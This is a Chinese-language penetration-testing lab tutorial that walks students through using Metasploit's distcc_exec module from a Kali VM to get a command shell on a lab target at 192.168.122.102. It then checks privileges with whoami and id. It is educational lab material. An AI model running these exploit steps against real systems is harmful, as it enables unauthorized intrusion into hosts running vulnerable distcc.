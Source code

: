 注意由于虚拟机启动需要时间，大概要等一分钟左右我们就可以使用 SSH 访问两台虚拟机了。

首先使用 SSH 连接到 Kali，我们大部分的攻击操作都需要在 Kali 虚拟机中进行，注意用户名root，密码 toor 是不显示的，使用命令 `ssh root@kali` 即可，因为当前实验环境中已经把 IP 地址和主机名的对应写入到了 `/etc/hosts` 文件中，避免输入不好记的 IP 地址：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1479890676283.png-wm)

现在两台实验环境都已经启动，我们可以开始渗透测试实验了。

## 三、攻击进入目标主机

下面我们将会学习攻击进入目标主机。

### 3.1 利用 Distcc 漏洞进入目标主机

利用 Distcc 漏洞这个实验，在上一节中，我们已经实践过了。在从实验楼登录 Kali  终端后，依次输入如下命令，攻陷所要渗透的目标主机：

```
# 打开 postgresql 服务
sudo service postgresql start

# 打开终端 MSF
sudo msfconsole

# 使用 use 命令对模块进行使用
use exploit/unix/misc/distcc_exec
 
# 利用 set 命令，设置渗透目标主机参数 RHOST 为 192.168.122.102
set RHOST 192.168.122.102

# 使用命令 exploit 命令，进行渗透攻击
exploit
```

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1483509960404.png-wm)


由攻击的 gif 图可以看出，目前已经成功建立了管道连接。其中值得注意的是，在攻击结束之后，会建立一个 `session` 保存当前的会话。gif 动图中显示的是，`Command shell session 4 opened` 是因为运行了四次攻击。

正常情况下，第一次输入攻击命令，你所见到的是：`Command shell session 1 opened`。

### 3.2 查看当前用户的权限

在成功地建立了管道连接之后，接下来可以对目标主机进行各种操作。在现实生产过程中，当渗透进入一个目标主机之后，我们首先要查看当前用户是不是 `root` 用户。利用命令 `whoami` 和 `id ` 可以查看当前用户是否是拥有管理员权限：

```
# 查看当前用户
whoami

# 输入命令 id 
id
```
